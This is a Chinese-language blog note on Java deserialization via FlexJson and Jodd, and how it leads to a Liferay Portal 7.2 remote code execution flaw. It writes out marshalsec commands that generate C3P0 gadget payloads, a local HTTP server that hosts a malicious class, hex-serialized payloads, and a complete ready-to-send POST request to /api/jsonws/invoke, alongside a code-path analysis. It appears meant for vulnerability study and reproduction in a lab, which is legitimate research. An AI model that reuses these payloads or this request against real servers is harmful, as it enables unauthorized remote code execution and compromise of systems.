FlexJson 反序列化笔记
liferay port在6.x版本使用FlexJson顺手学习下
C3P0 poc构造
1.打印出poc
1
| java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Jackson C3P0WrapperConnPool http://127.0.0.1:8891/ Exploit
|

python起个服务并在当前目录放置Exploit.class
1
| python3 -m http.server 8891
|

复现环境搭建
1
2
3
4
5
6
7
8
9
10
| <dependency>
<groupId>net.sf.flexjson</groupId>
<artifactId>flexjson</artifactId>
<version>3.1</version>
</dependency>
<dependency>
<groupId>com.mchange</groupId>
<artifactId>c3p0</artifactId>
<version>0.9.5.2</version>
</dependency>
|
漏洞触发点在于执行JSONDeserializer.deserialize方法,对json字符串进行反序列化会调用字段setter方法，并执行其中危险函数操作.
1
2
3
4
5
6
7
8
9
10
11
12
13
14
| import flexjson.JSONDeserializer;
public class flexjsonTest1 {
public static void main(String[] args) {
String json = "{\"class\":\"com.mchange.v2.c3p0.WrapperConnectionPoolDataSource\",\"userOverridesAsString\":\"HexAsciiSerializedMap:aced00057372003d636f6d2e6d6368616e67652e76322e6e616d696e672e5265666572656e6365496e6469726563746f72245265666572656e636553657269616c697a6564621985d0d12ac2130200044c000b636f6e746578744e616d657400134c6a617661782f6e616d696e672f4e616d653b4c0003656e767400154c6a6176612f7574696c2f486173687461626c653b4c00046e616d6571007e00014c00097265666572656e63657400184c6a617661782f6e616d696e672f5265666572656e63653b7870707070737200166a617661782e6e616d696e672e5265666572656e6365e8c69ea2a8e98d090200044c000561646472737400124c6a6176612f7574696c2f566563746f723b4c000c636c617373466163746f72797400124c6a6176612f6c616e672f537472696e673b4c0014636c617373466163746f72794c6f636174696f6e71007e00074c0009636c6173734e616d6571007e00077870737200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78700000000000000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000a70707070707070707070787400074578706c6f6974740016687474703a2f2f3132372e302e302e313a383839312f740003466f6f;\"}";
JSONDeserializer jsonDeserializer = new JSONDeserializer();
try {
jsonDeserializer.deserialize(json);
}catch (Exception e){
e.printStackTrace();
}
}
}
|

JSONDeserializer.deserialize执行流程分析
对传入的字符串调用StringReader方法载入,重点关注nextValue方法，该方法对json字符进行解析和存入绑定类中.

先对json字符串的闭合字符进行判断，当读到第一个字符位{，回进入相应的case分支.重点关注parseObject方法(在该方法中就会进行套娃循环执行nextValue),会先创建一个Map类jsonObject,并会相应调用putOnce方法对读取的字符串以key-value的形式存储，方便后续实例化调用.

当读取到字符"时，会执行nextString方法.该方法中会新建StringBuilder用来存放字符.当读取到的字符不满足其他case会进行数组拼接操作append。这里就将"class"字符串存入sb中.接着就会读取到"(闭合的双引号)退出该方法.

最重要是存入操作. 取出上一步载入缓冲区的class字符串作为key，接着会判断该key之后的字符是否为:，合法的话就会进行putOnce操作存入jsonObject,在该方法中会在进行一次nextValue读取:之后下一个字符串.执行流程与class字符串获取相同.

执行bind方法. 这里input值就是最后返回的jsonObject，该对象中以key-value方式缓存字符.
直接跟进ObjectBinder.findCLassInMap方法.取出key为”class”赋值给classname。接着执行loadClass加载类.
,instantiate方法反射调用newInstance方法实例化.

- 只用就会反射调用字段的setter方法.C3P0构造链中会执行危险函数readObject反序列化.执行的结果加载URLClassLoader加载远程恶意类.调用forName后执行构造类触发命令执行.

JODD 反序列化
liferay port在7.x版本采用Jodd对json进行操作。
本地环境搭建
1
2
3
4
5
| <dependency>
<groupId>org.jodd</groupId>
<artifactId>jodd-json</artifactId>
<version>3.6.4</version>
</dependency>
|
Demo
1
2
3
4
5
6
7
8
9
10
11
| import com.mchange.v2.c3p0.WrapperConnectionPoolDataSource;
import com.mchange.v2.c3p0.impl.C3P0Defaults;
import jodd.json.JsonParser;
public class joddtest {
public static void main(String[] args) {
String json = "{\"userOverridesAsString\":\"HexAsciiSerializedMap:aced00057372003d636f6d2e6d6368616e67652e76322e6e616d696e672e5265666572656e6365496e6469726563746f72245265666572656e636553657269616c697a6564621985d0d12ac2130200044c000b636f6e746578744e616d657400134c6a617661782f6e616d696e672f4e616d653b4c0003656e767400154c6a6176612f7574696c2f486173687461626c653b4c00046e616d6571007e00014c00097265666572656e63657400184c6a617661782f6e616d696e672f5265666572656e63653b7870707070737200166a617661782e6e616d696e672e5265666572656e6365e8c69ea2a8e98d090200044c000561646472737400124c6a6176612f7574696c2f566563746f723b4c000c636c617373466163746f72797400124c6a6176612f6c616e672f537472696e673b4c0014636c617373466163746f72794c6f636174696f6e71007e00074c0009636c6173734e616d6571007e00077870737200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78700000000000000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000a70707070707070707070787400074578706c6f6974740016687474703a2f2f3132372e302e302e313a383839312f740003466f6f;\"}";
JsonParser jsonParser = new JsonParser();
jsonParser.map((String)null,WrapperConnectionPoolDataSource.class).parse(json);
}
}
|

进入到parse方法中.Json字符串可控，rootType只要控制为恶意类，就能够成功反序列化C3P0.
liferay portal
只要找到类似上面Jodd反序列化操作，且关键的Json参数和rootType可控就能成功反序列化.
漏洞原理
JODD反序列化操作中rootType和Json字符串可控导致RCE
漏洞复现
环境下载地址:https://github.com/liferay/liferay-portal/releases/tag/7.2.0-ga1
可以连src一起下载方便搜索
生成POC
1
| java -cp target\marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.Jackson C3P0WrapperConnPool http://127.0.0.1:8891/ Exploit
|
起服务
1
| python3 -m http.server 8891
|
1
2
3
4
5
6
7
8
9
10
11
12
13
14
15
| POST /api/jsonws/invoke HTTP/1.1
Host: localhost:8080
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:74.0) Gecko/20100101 Firefox/74.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
DNT: 1
Connection: close
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache
Content-Type: application/x-www-form-urlencoded
Content-Length: 1304
cmd=%7B%22%2Fexpandocolumn%2Fadd-column%22%3A%7B%7D%7D&tableId=1&name=2&type=3&defaultData:com.mchange.v2.c3p0.WrapperConnectionPoolDataSource={"userOverridesAsString":"HexAsciiSerializedMap:aced00057372003d636f6d2e6d6368616e67652e76322e6e616d696e672e5265666572656e6365496e6469726563746f72245265666572656e636553657269616c697a6564621985d0d12ac2130200044c000b636f6e746578744e616d657400134c6a617661782f6e616d696e672f4e616d653b4c0003656e767400154c6a6176612f7574696c2f486173687461626c653b4c00046e616d6571007e00014c00097265666572656e63657400184c6a617661782f6e616d696e672f5265666572656e63653b7870707070737200166a617661782e6e616d696e672e5265666572656e6365e8c69ea2a8e98d090200044c000561646472737400124c6a6176612f7574696c2f566563746f723b4c000c636c617373466163746f72797400124c6a6176612f6c616e672f537472696e673b4c0014636c617373466163746f72794c6f636174696f6e71007e00074c0009636c6173734e616d6571007e00077870737200106a6176612e7574696c2e566563746f72d9977d5b803baf010300034900116361706163697479496e6372656d656e7449000c656c656d656e74436f756e745b000b656c656d656e74446174617400135b4c6a6176612f6c616e672f4f626a6563743b78700000000000000000757200135b4c6a6176612e6c616e672e4f626a6563743b90ce589f1073296c02000078700000000a70707070707070707070787400074578706c6f6974740016687474703a2f2f3132372e302e302e313a383839312f740003466f6f;"}
|

漏洞分析
漏洞点位于looseDeserialize方法执行中.全局搜索后，全局搜索到网上分析文章标注的触发点.

跟进该方法JSONFactoryImpl.looseDeserialize()

继续跟进use方法至map方法,在第78行会赋值target到rootTpe字段中.而json值就是恶意类需要执行setter方法的字段

defaultData值构造
回头看，是需要控制valueString和parameterType.网上有很多师傅已经完整分析出流程。这里简单分析啊defaultData为什么这样构造.
参数收集方法：JSONWebServiceActionParameters#this._collectFromRequestParameters(httpServletRequest)对收集参数进行整合存入内存中.
跟入到this._jsonWebServiceActionParameters.put(parameterName, value);.put方法以”:”为分割符,将”defaultData”作为key，com.mchange.v2.c3p0.WrapperConnectionPoolDataSource作为typeName存入到参数_parameterTypes中.

之后需要调用this._findJSONWebServiceAction(httpServletRequest, path, method, jsonWebServiceActionParameters);验证传入的参数_name和_type是否与api中字段类型匹配。可以看到_name=defaultData存在属性_type为java.lang.Object可以利用该参数赋值任意类.

满足上一步中匹配api中的参数之,JSONWebServiceActionImpl#_prepareParameters()方法中就能够加载C3P0存入parameterType中.

只要满足以上条件最后就能够成功执行JSONWebServiceActionImpl#_convertValueToParameterValue()方法中进行反序列化.
1
| parameterValue = JSONFactoryUtil.looseDeserialize(valueString, parameterType);
|
总结
- 在复现时候可以把漏洞点触发组件提取出来先打下poc调试。这样回溯参数会有目的性
- 该漏洞难点我觉得主要还是在defaultData值的分析，需要适配api中的字段也是一个坑点.
参考链接
https://xz.aliyun.com/t/7499
https://xz.aliyun.com/t/7485
https://nosec.org/home/detail/4394.html
https://codewhitesec.blogspot.com/2020/03/liferay-portal-json-vulns.html